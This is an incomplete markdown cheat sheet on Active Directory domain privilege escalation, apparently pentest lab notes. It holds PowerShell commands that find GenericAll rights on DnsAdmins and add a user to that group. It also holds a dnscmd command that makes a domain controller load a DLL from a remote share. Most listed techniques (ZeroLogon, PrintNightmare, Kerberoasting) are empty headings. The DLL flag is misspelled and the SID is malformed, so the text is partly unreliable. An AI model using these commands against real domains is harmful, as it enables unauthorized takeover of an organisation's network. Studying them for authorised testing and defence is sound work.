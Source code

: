 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

```powershell
dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll


```

## DCSync0

## ZeroLogon (CVE-2020-1472)

## Unconstrained delegation

## constrained Delegation

## SET-SPN - Kerberoast

## ASPRoasting
